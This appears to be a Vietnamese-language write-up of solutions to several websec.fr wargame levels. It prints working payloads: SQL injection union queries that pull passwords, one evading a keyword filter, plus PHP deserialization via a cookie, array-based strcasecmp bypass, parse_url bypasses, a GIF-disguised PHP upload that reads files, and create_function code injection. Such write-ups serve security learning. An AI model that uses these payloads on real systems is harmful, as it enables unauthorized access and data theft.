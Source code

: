 ```yaml
---
title: "websec.fr"
author: "mtiennnnn"
tags: wargame
---
```


# level01

![image](https://user-images.githubusercontent.com/75429369/179963339-bc0671f2-f043-4b12-a74a-3fd5ca44348c.png)

Sqlite3 có query hoàn toàn có thể thực hiện sqli, fuzz số cột thì biết được có 2 cột

```
1 and 1=0 union select sql,sql from sqlite_master -- '
```

![image](https://user-images.githubusercontent.com/75429369/179965358-c36348da-ac37-4f0d-891b-e9f4bb468304.png)

Có password kìa select nó ra với id 1 nào

```
1 and 1=0 union select password,password from users where id = 1 --'
```

![image](https://user-images.githubusercontent.com/75429369/179965685-6e109132-1c56-4b00-9b44-291905d404c7.png)

# level04

Bài cho 2 source code, source thứ nhất có chỗ đáng lưu ý sau

![image](https://user-images.githubusercontent.com/75429369/179966473-82c383f6-4bd9-4dcd-89bf-26e1fca980f9.png)

Kiểm tra có cookie và sẽ unserialize cái cookie đấy. Source thứ hai:

![image](https://user-images.githubusercontent.com/75429369/179966371-845ea550-b87f-4913-8972-ad29b77a98eb.png)

Có function `SQL_query` trỏ vào `$query` có liên kết với source thứ nhất. Với id = 1 thì ta được flag nên giờ chỉ cần select được tới nó là xong, đơn giản chỉ cần modify cái cookie thành serialize của class SQL mà trong đó sẽ có query sqli inject thêm từ query có sẵn trong source (nhớ base64 nữa).

```php
<?php 
class SQL {
  public $query = "SELECT username from users where id=1 UNION SELECT password from users where id=1";
}

$a = new SQL();
echo base64_encode(serialize($a));
?>
```

![image](https://user-images.githubusercontent.com/75429369/179969680-394dcc22-5173-4012-a1b5-cb43b030e870.png)

![image](https://user-images.githubusercontent.com/75429369/179969719-d132c13e-9a11-4ae4-9857-f609ef502872.png)

# level17

Bài này bắt ta nhập biến `flag` sau đó so sánh bằng hàm `strcasecmp` với $flag có sẵn, nếu ra sai thì sẽ cho flag. Có thể tham khảo hàm `strcasecmp` tại [đây](https://www.php.net/manual/en/function.strcasecmp.php)

![image](https://user-images.githubusercontent.com/75429369/179970219-15775230-4cbe-489e-a834-6f7d667d9ee1.png)

Trick để bypass bài này là thay vì nhập $flag là một string thì ta sẽ nhập dưới dạng một array, lúc này kết quả so sánh sẽ trả về `NULL` (tự debug nha)

![image](https://user-images.githubusercontent.com/75429369/179972273-94a3252b-73b0-4ebb-a7d7-a8e305fa332f.png)

# level25

Bài này cho nhập vào một trang muốn include. Đọc source lưu ý chỗ như sau

![image](https://user-images.githubusercontent.com/75429369/179972889-c83b046a-89ab-4f7d-b597-87d1db3aea56.png)

![image](https://user-images.githubusercontent.com/75429369/179972913-5c18ef80-d9cb-4ca4-86e5-2f5a71d5666a.png)

Ban đầu thấy biến `page` tưởng chừng path travelsal nhưng ở bước include nó đã thêm .txt vào đuôi rồi nên ta không thể đi theo hướng này.

Phân tích chỗ parse_url(), trước hết ta phải hiểu nó làm gì đã

![image](https://user-images.githubusercontent.com/75429369/179973464-1814f784-657f-4323-89e2-3c1e6647114e.png)

Vậy thì sau khi parse nó sẽ tạo ra mảng như trên, như trong source code sẽ lấy phần query ra và kiểm tra nếu chứa chữ `flag` thì sẽ báo lỗi.

Ở đây sẽ có nhiều hướng bypass, cách dễ dàng nhất là sử dụng 3 dấu slash, tham khảo thêm ở [đây](https://www.php.net/manual/en/function.parse-url.php) và [đây](https://blog.birost.com/a?ID=01000-ed462190-b4c0-40c0-84bb-0c96dc4be3fb)

![image](https://user-images.githubusercontent.com/75429369/179976647-a03f2616-9579-482a-8a44-7de0114a8a16.png)

Hoặc ta có thể nhập định dạng sai, ở đây mình thêm `:3` vào phía sau (tự debug nhé)

![image](https://user-images.githubusercontent.com/75429369/179977161-ad890710-8f82-463a-a880-d90b740826c8.png)

# level02

Bài này giống y hệt level 01, chỉ khác là sử dụng `preg_replace` để filter các kí tự cho payload sqli

![image](https://user-images.githubusercontent.com/75429369/179978149-ee531064-0cb0-43e9-a6d8-e417cd8e04d4.png)

Bypass chỗ này bằng cách sau

![image](https://user-images.githubusercontent.com/75429369/179978630-983e36d5-e2b7-4da4-876a-22f5fbdc7b8a.png)

Payload thì làm i hệt như level 1

```
1 and 1=0 uniunionon seleselectct password,password frofromm users where id=1 -- '
```

![image](https://user-images.githubusercontent.com/75429369/179978918-23302c26-493c-405a-8256-9d4e5e04902b.png)

# level08

Bài này cho ta upload một file gif, đoạn code kiểm tra file gif như sau

![image](https://user-images.githubusercontent.com/75429369/180018398-20f7a068-91f5-4732-90cf-96a26cf5ac90.png)

Ta thấy code có sử dụng `exif_imagetype`, sau khi tìm hiểu hàm này trên [đây](https://www.php.net/manual/en/function.exif-imagetype.php) thì ta có thể biết rằng hàm chỉ kiểm tra file có phải gif hay không thôi, còn phần body sẽ bị bỏ qua, ta sẽ inject một đoạn code php vào phần body này, và sử dụng magic byte để khi đi qua hàm xử lí thì nó sẽ hiểu file này là gif, tham khảo magic byte [này](https://medium.com/@d.harish008/what-is-a-magic-byte-and-how-to-exploit-1e286da1c198). Payload file như sau

```
GIF87a
<?php echo join(" ",scandir('.')); ?>
```

_Note: ban đầu mình có thử function để chạy code execution luôn mà không được, hình như các function đã bị chặn gần hết, test với payload trên thì được_

![image](https://user-images.githubusercontent.com/75429369/180021542-cc7d87cf-abcb-4459-9cb5-b662697c7da7.png)

```
GIF87a
<?php echo readfile('flag.txt'); ?>
```

![image](https://user-images.githubusercontent.com/75429369/180022117-f4923ddf-38b8-4a1e-9f80-03ac40721061.png)

# level15

Bài này mới vô cho ta declare hàm nào đó với `create_function()`, source lưu ý

![image](https://user-images.githubusercontent.com/75429369/180024889-b10b1bd5-98a2-4bb1-83a7-089e1f7cac45.png)

Ban đầu, mình thử nhập như gợi ý là `echo 1337;` thôi nhưng mà mình quên `;` thì web hiện như sau

![image](https://user-images.githubusercontent.com/75429369/180025271-0f0823d2-faf1-4e0e-85bd-e8276ff4dc49.png)

À há, có nghĩa là ở trước chỗ input này thì lệnh chưa được đóng dấu `;` nên dấu `}` ngay sau đó đã lỗi, vậy thì format theo mình nghĩ sẽ như sau

<chỗ mình input> } (đoạn code gì đấy phía sau)

Vậy thì chỉ cần nhập input là `;}` để thoát khỏi dấu `}` sau đó nhập đoạn code mình muốn và comment lại đoạn phía sau là được

```
;} echo 1; //
```

![image](https://user-images.githubusercontent.com/75429369/180026065-3a61a8e3-8404-4eb8-ae18-7f4af4db4277.png)

Oke rồi đọc flag thôi

```
;} echo $flag; //
```

![image](https://user-images.githubusercontent.com/75429369/180026326-1762cca4-fb67-4cab-a4d3-c6f20b64a835.png)

Mình có đi tìm thử cách làm khác thì thấy được trang [này](https://www.exploit-db.com/exploits/32417), nghĩa là thằng `create_function` này đã lỗi sẵn :)), php 8. đã bỏ nó.













